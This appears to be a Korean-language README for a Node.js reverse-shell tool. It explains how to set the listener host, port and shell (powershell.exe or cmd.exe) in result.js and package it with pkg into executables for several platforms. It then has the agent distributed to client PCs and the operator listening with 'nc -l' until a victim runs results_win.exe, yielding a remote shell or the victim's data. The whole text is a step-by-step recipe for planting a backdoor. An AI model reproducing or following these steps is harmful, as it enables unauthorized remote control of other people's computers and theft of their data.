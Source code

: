 :>-----------------------------------------------------------<:
★x1 필수 설치파일
1) Node.js
    1. (windows) https://nodejs.org/ko/download/
    2. (MacOSX) brew install node
    3. (Linux) yum install node
2) PKG //에이전트 파일 생성
    1. npm install pkg --g
:>-----------------------------------------------------------<:
★x2 코드 수정(result.js)
1) 리버스쉘을 연결할 서버 호스트(HOST_Address, HOST_PORT) 등록
ex) const HOST_Address = "naver.com" or "8.8.8.8"
    const HOST_PORT = ["111"]

2) 리버스쉘 연결할 Command(COMMAND) 등록
ex) const COMMAND  = "powershell.exe", "cmd.exe"
:>-----------------------------------------------------------<:
★x3 에이전트 파일 생성(With PKG)
    1) compile.bat 실행
    2) results 폴더 내 에이전트 파일 확인(windows, mac, linux)
    3) 에이전트 파일 Client PC 배포
:>-----------------------------------------------------------<:
★x4 Server 측 포트 리스닝
    1) nc -l HOST_PORT
    2) 대기
:>-----------------------------------------------------------<:
★x5 Client PC 측 에이전트 파일 실행
    1) (windows) results_win.exe 파일 클릭
    2) Connected 인 경우 연결성공
:>-----------------------------------------------------------<:
★x6 Server 
    1) Client 로부터 전달받은 데이터 또는 Shell 획득
:>-----------------------------------------------------------<:

